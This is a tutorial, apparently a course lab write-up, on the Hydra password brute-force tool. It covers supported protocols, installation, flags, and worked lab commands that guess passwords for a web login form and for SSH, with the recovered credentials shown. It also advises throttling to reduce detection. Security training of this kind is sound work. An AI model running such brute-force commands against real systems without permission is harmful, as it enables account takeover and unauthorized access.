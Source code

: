 
## Hydra

### 🔹 What is Hydra?

Hydra is a fast, modular brute‑force online password cracking tool used to automate authentication guessing against many network protocols and web forms. Instead of manually trying passwords, Hydra iterates through username/password lists against a target service (SSH, FTP, HTTP forms, SMB, RDP, VNC, etc.) to find valid credentials.

Hydra's official repository lists support for many protocols, including (but not limited to):

> Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP‑FORM‑GET, HTTP‑FORM‑POST, HTTP‑GET, HTTP‑HEAD, HTTP‑POST, HTTP‑PROXY, HTTPS‑FORM‑GET, HTTPS‑FORM‑POST, HTTPS‑GET, HTTPS‑HEAD, HTTPS‑POST, HTTP‑Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS‑SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC‑Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware‑Auth, VNC and XMPP.

This breadth makes it a go‑to tool for penetration testers when password guessing is required.

> **Security note:** Hydra is a powerful offensive tool. Use it only on systems you own or have explicit permission to test. Unauthorized brute force attacks are illegal and unethical.


#### Why password strength matters

If passwords are common, short (< 8 characters), or lack special characters, they are highly susceptible to cracking by wordlists (e.g., rockyou) and brute‑force tools like Hydra. Many out‑of‑the‑box devices and apps use default credentials (e.g., `admin:password`) — change defaults immediately.


#### Installing Hydra

* **Kali / AttackBox:** Hydra is preinstalled on Kali images and the AttackBox used in this course. Click **Start AttackBox** or **Start Kali Linux** and you’ll have Hydra available.
* **Debian/Ubuntu:** `sudo apt install hydra`
* **Fedora:** `sudo dnf install hydra`
* **Source / THC‑Hydra repo:** Clone and build from the official repository if you prefer the latest version.


#### Usage basics

Hydra’s command structure varies by protocol. Common flags:

* `-l <user>` — single username
* `-L <userlist>` — file with usernames
* `-p <pass>` — single password
* `-P <passlist>` — file with passwords (e.g., rockyou)
* `<target>` — IP or hostname
* `<module>` — service or protocol (e.g., `ssh`, `ftp`, or `http-post-form`)

For HTTP form attacks `http-form-post` (or `http-post-form`) requires the login URI and the form fields, and a string that identifies a failed login.

Syntax example for HTTP form:

```
hydra -l <user> -P <wordlist> <target> http-post-form "/path:field_user=^USER^&field_pass=^PASS^:Failure-String"
```

`^USER^` and `^PASS^` are placeholders Hydra replaces with username and password guesses.

---

### 🔹Practical examples (from the lab)

### 1) Brute forcing a web login form

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.62.115 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

**Result (example):**

```
username: molly
password: sunshine
```

After successful login to the web app the file `flag1.txt` was found.

### 2) Targeting SSH

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.62.115 ssh
```

**Result (example):**

```
username: molly
password: butterfly
```

Then use the discovered credentials to SSH:

```
ssh molly@10.201.62.115
# password: butterfly
```

On the remote host:

```
molly@10.201.62.115$ ls
flag2.txt
```

---

### 🔹 Tips & best practices

* **Throttle requests** if testing real networks to avoid account lockouts and to reduce detection. Use options like `-t` (tasks/threads) judiciously.
* **Target specific accounts** rather than wide spray attacks when possible.
* **Choose appropriate wordlists:** `rockyou.txt` is common for practice; customize lists for real engagements.
* **Respect rate limits and monitoring systems.** Many services will lock accounts or trigger alerts on repeated failed attempts.


#### Common Hydra flags (quick reference)

* `-s <port>` — specify a non‑standard port
* `-V` — verbose (show each attempt)
* `-t <tasks>` — number of parallel tasks
* `-f` — exit after first valid credential found
* `-w <timeout>` — network timeout
* `-o <file>` — write found credentials to file

#### Further reading

* Check your distribution’s Hydra man page (`man hydra`) or `hydra -h` for a full option list.
* Kali tools page for Hydra contains useful examples and protocol notes.
